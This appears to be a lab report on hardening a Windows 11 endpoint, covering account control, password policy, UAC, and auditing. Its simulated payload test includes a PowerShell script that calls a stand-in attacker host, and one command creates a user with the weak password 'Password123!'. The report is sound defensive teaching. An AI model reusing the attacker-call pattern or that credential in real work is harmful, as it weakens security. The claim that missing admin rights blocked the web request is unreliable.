

# Hardening Report — Windows 11 Endpoint

This report documents the technical steps taken to harden a default Windows 11 Pro system in a virtual lab. Actions were selected to improve local account control, enforce least privilege, implement basic password policy hygiene, and simulate real-world defense-in-depth principles. Each step includes rationale, implementation, and verification details.

---

## Before vs. After Summary

| Category              | Before                         | After                          |
|-----------------------|--------------------------------|--------------------------------|
| Guest Account         | Enabled                        | Disabled                       |
| Admin Account Name    | `Administrator`                | `svc_sysmgr`                   |
| Daily User Privilege  | Admin                          | Standard (non-admin)           |
| Password Complexity   | Disabled                       | Enabled                        |
| Password Min Length   | 8                              | 12                             |
| UAC Settings          | “Never Notify”                 | “Always Notify”                |
| Audit Policy          | Not configured                 | Enabled for logon, privilege use, object access |
| PowerShell Execution  | Unrestricted as admin          | Blocked or UAC-protected       |

---

## Account Control

### Renamed Default Administrator Account
- **Why:** Obfuscates a high-value target account frequently exploited by attackers
- **Command:**
  ```powershell
  Rename-LocalUser -Name "Administrator" -NewName "svc_sysmgr"
  ```
- **Verification:**  
  ```powershell
  net user
  ```  
   

---

### Disabled Guest Account
- **Why:** Prevents unauthenticated logons via built-in low-privilege account
- **Command:**
  ```powershell
  Disable-LocalUser -Name "Guest"
  ```
- **Verification:**
  ```powershell
  net user Guest
  ```  
  Look for `Account active: No`  

 

---

### Created Standard User Account
- **Why:** Enforces least privilege for daily tasks
- **Commands:**
  ```powershell
  net user TestUser Password123! /add
  net localgroup Users TestUser /add
  net localgroup Administrators TestUser /delete
  ```
- **Verification:** Group membership before/after  
 
 
---

## Password Policy

### Enforced Strong Password Requirements
- **Min length:** `12`
- **Complexity:** Enabled (uppercase, lowercase, number, symbol)
- **Password history:** 12 remembered
- **Min age:** 1 day
- **Max age:** left at default (42 days)
- **How:**  
  `gpedit.msc → Computer Configuration → Windows Settings → Security Settings → Account Policies → Password Policy`  
- 📸 `images/password_policy_after.png`

---

### Enabled Password Length Auditing
- **What:** Set `Minimum password length audit` to `16`
- **Why:** Allows auditing before enforcing stricter policy
- included with password policy screenshot

---

### Disabled Insecure Options
- **Reversible encryption:** Disabled  
- **Relax minimum length enforcement:** Disabled  

---

## User Account Control (UAC)

### Raised UAC Settings
- **Change:** “Never notify” → “Always notify”
- **Why:** Ensures elevation prompts appear for all privileged actions
- **How:**  
  `Control Panel → User Accounts → Change User Account Control settings`
- `images/uac_before.png`, `images/uac_after.png`

---

## Audit Policy Configuration

### Enabled Basic Security Auditing
- **Enabled policies:**
  - `Audit logon events`
  - `Audit privilege use`
  - `Audit process tracking`
  - `Audit object access`
- **Why:** Provides visibility into login behavior, permission use, and program execution
- **How:**  
  `gpedit.msc → Security Settings → Local Policies → Audit Policy`
- `images/audit_policy_configured.png`

---

## Simulated Payload Test (Before vs. After)

### Purpose
To demonstrate the impact of user privilege and UAC on potentially malicious PowerShell execution, simulating initial access tactics commonly seen in real-world attacks.

### Method
Created a harmless but suspicious PowerShell script:

```powershell
# fake-malware.ps1
Write-Output "Connecting to attacker..."
Start-Sleep -Seconds 2
Invoke-WebRequest http://malicious.example.com -UseBasicParsing
Write-Output "Payload delivered."
```

### Before Hardening
- Executed as built-in Admin user
- Ran silently, made outbound request without prompt
- `images/fake_payload_admin_exec.png`

### 🛡️ After Hardening
- Ran as standard user with UAC enforced
- Blocked or triggered elevation prompt
- Prevented web request due to lack of admin rights
- `images/fake_payload_blocked_standard_user.png`

### ATT&CK Mapping:
- `T1059` – Command and Scripting Interpreter  
- `T1204` – User Execution

---

## Framework Alignment

This hardening configuration aligns with:
- **CIS Microsoft Windows 11 Benchmark – Level 1**
- **NIST 800-53 Rev 5** control families:
  - `AC-2` (Account Management)  
  - `AC-6` (Least Privilege)  
  - `AU-2` (Audit Events)  
  - `IA-5` (Authenticator Management)

---

## Conclusion

This lab simulates common endpoint hardening tasks in a Windows 11 Pro environment, executed without domain infrastructure. Though foundational, these controls form the baseline for defense-in-depth strategies and reflect real-world configurations used in help desk, desktop support, and SOC environments.

This project demonstrates practical experience with:
- PowerShell administration
- Group Policy configuration
- Privilege management
- UAC tuning
- Scripted security testing
- Technical documentation
